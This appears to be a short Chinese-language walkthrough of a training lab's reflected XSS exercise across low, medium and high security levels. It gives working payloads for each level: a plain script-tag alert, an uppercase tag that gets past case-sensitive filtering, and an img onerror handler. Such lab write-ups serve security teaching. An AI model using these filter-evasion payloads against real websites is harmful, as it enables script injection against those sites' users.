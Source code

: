 # XSS ( Reflected )
反射型XSS: Reflected 是指不會儲存在資料庫中，而是由網頁後端直接嵌入由前端使用者所傳送過來的內容要成的，最常見的方法就是以GET方法傳送資料給伺服器時，伺服器未檢查就將內容回憶到網頁上所產生的漏洞

## LOW

直接在上面打
```
    <script>alert(1)</script>
```

## Medium
輸入
```
    <script>alert(1)</script>
```
會發現輸出變成alert(1)，script被替換掉了
因此將輸入框改為大寫即可
```
    <SCRIPT>alert(1)</script>
```

## HIGH
被過濾的字詞更多了，但還是可以用img的方式傳
```
    <img src/onerror = alert(1)>
```

